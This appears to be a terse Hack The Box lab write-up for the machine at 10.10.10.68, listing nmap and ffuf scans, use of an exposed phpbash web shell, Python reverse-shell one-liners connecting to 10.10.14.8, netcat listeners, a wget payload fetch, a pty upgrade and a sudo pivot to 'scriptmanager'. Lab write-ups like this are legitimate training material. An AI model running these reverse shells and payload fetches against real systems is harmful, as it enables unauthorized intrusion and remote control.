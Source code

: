 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bc9cd0fd-fd2e-45f4-9c77-be705cc2acd2)

![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fw 22 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1aa722cc-5bca-43a1-b614-880a38a27f10)


```
http://10.10.10.68/dev/phpbash.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/178b962b-8973-473b-995f-30bb71bbb29b)
f-a8f4-c5d1578b3fa2)


```
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
sudo -l
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -u scriptmanager bash -i
```
![image](https://user-images.githubusercontent.com/33616880/231083178-a2ff7d4c-fbbf-4701-885e-399f0a2bd732.png)
![image](https://user-images.githubusercontent.com/33616880/231083338-54eabf9e-3306-488f-800c-b2ac046a8175.png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
wget 10.10.14.8/shell.py
```
```
nc -nlvp 4444
python -c shell.py
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/231084808-1b28d08b-1c89-46bd-9d76-3770e62233fc.png)
![image](https://user-images.githubusercontent.com/33616880/231085786-4b06a14b-e3d7-4406-98b4-ab4f676953d9.png)
